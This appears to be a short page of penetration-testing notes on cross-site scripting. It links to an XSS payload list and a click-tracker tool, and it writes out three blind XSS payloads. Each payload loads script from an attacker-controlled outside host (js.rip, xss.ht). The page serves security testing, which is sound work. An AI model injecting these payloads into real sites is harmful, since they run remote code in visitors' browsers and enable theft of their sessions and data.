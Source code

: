 ```yaml
---
description: Techniques used for XSS
---
```


# XSS - Cross Site Scripting

## Common XSS Payloads

Following are some XSS payloads you can use

{% embed url="https://github.com/payloadbox/xss-payload-list" %}

## Blind XSS

Sometimes you may want to test for blind XSS, in that case you need some sort of server infrastructure to listen for events. I have a handy tool that allows you to setup trackers and alert you via Telegram.

{% embed url="https://github.com/junzhengca/defr0st-tools/tree/main/click-tracker" %}

Common blind XSS payloads

```html
"><script src="https://js.rip/<custom.name>"></script>
"><script src=//<custom.subdomain>.xss.ht></script>
<script>$.getScript("//<custom.subdomain>.xss.ht")</script>
```
